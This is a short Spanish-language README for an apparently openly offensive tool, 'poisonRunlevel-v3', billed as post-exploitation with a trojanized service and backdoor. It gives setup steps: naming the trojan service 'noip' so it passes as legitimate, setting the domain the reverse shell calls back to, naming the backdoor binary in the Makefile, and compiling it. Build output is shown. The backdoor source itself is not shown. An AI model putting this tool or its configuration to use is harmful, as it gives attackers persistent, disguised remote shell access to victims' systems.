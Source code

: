 # poisonRunlevel-v3
Post-Exploitation - Servicio troyanizado - Backd00r
<h4>poisonRunlevel v3. Demo</h4>
https://www.youtube.com/watch?v=f_HsdmacLNI


Editar:
<pre>
src/poisønRunLevel.c ## editar linea para cambiar nombre de servicio (backdoor)
    34	#define TROY "noip" // set nombre servicio troyano
</pre>

<pre>
src/backd00r.c ## setear nombre de dominio donde conectara reverse shell
    14	#define DOMINIO "nombredominio.cl"
</pre>

<pre>
Makefile ## editar Makefile nombre de salida (-o) de backdoor
     9		gcc src/backd00r.c -o noip 
</pre>

Compilar:
<pre>
[p0fk@blackbell poisonRunlevel-v3]$ make
rm -f opendoor poison unit.service
gcc src/backd00r.c -o noip 
gcc -std=c99 -std=gnu99 src/poisønRunLevel.c -o poison -Ilib/ 
</pre>
